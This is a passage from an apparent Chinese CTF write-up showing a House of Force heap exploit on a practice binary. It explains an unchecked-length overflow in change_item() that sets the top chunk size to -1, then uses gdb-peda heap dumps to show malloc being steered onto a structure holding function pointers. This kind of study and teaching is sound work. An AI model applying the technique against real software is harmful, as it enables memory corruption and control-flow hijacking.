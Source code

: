 ### 2) 溢出 name
由于 change_item() 函数中 name 的长度由用户指定，并且程序没有对长度做限制，当指定修改的 name 长度大于 name 的内存大小时，将会导致越界写内存，从而可修改 top chunk 的 size 字段为-1。
```sh
gdb-peda$ heapls
           ADDR             SIZE            STATUS
sbrk_base  0x603000
chunk      0x603000         0x20            (inuse)
chunk      0x603020         0x50            (inuse)
chunk      0x603070         0xfffffffffffffff8(top)
sbrk_end   0x624000
gdb-peda$ x/20x 0x603000
0x603000:       0x0000000000000000      0x0000000000000021
0x603010:       0x0000000000400896      0x00000000004008b1
0x603020:       0x0000000000000000      0x0000000000000051
0x603030:       0x6161616161616161      0x6161616161616161
0x603040:       0x6161616161616161      0x6161616161616161
0x603050:       0x6161616161616161      0x6161616161616161
0x603060:       0x6161616161616161      0x6161616161616161
0x603070:       0x0000000000000000      0xffffffffffffffff
0x603080:       0x0000000000000000      0x0000000000000000
0x603090:       0x0000000000000000      0x0000000000000000
```

### 3) 添加 item1
程序调用 malloc 在 top chunk 中分配一块大内存给 name ，此时更新 top chunk ptr 将会触发整数溢出，从而控制 top chunk 转移到指定内存。
```sh
gdb-peda$ heapls
           ADDR             SIZE            STATUS
sbrk_base  0x603000
chunk      0x603000         0x68            (top)
sbrk_end   0x624000
gdb-peda$ x/20x 0x603000
0x603000:       0x0000000000000000      0x0000000000000069
0x603010:       0x0000000000400896      0x00000000004008b1
0x603020:       0x0000000000000000      0x0000000000000051
0x603030:       0x6161616161616161      0x6161616161616161
0x603040:       0x6161616161616161      0x6161616161616161
0x603050:       0x6161616161616161      0x6161616161616161
0x603060:       0x6161616161616161      0x6161616161616161
0x603070:       0x0000000000000000      0xffffffffffffff91
0x603080:       0x0000000000000000      0x0000000000000000
0x603090:       0x0000000000000000      0x0000000000000000
```

### 4) 再次添加 item2
malloc(0x20) 从新的 top chunk 中分配一块内存给 item 的 name，rax 中返回的起始地址为 0x603010，该内存块会包含 box 结构体所在的 chunk。
```sh
gdb-peda$ heapls                                                                           
           ADDR             SIZE            STATUS
sbrk_base  0x603000
chunk      0x603000         0x30            (inuse)
chunk      0x603030         0x38            (top)
sbrk_end   0x624000
gdb-peda$ info reg rax
rax            0x603010 0x603010
gdb-peda$ x/20x 0x603000                                                                   
0x603000:       0x0000000000000000      0x0000000000000031
0x603010:       0x0000000000400896      0x00000000004008b1
0x603020:       0x0000000000000000      0x0000000000000051
0x603030:       0x6161616161616161      0x0000000000000039
0x603040:       0x6161616161616161      0x6161616161616161
0x603050:       0x6161616161616161      0x6161616161616161
```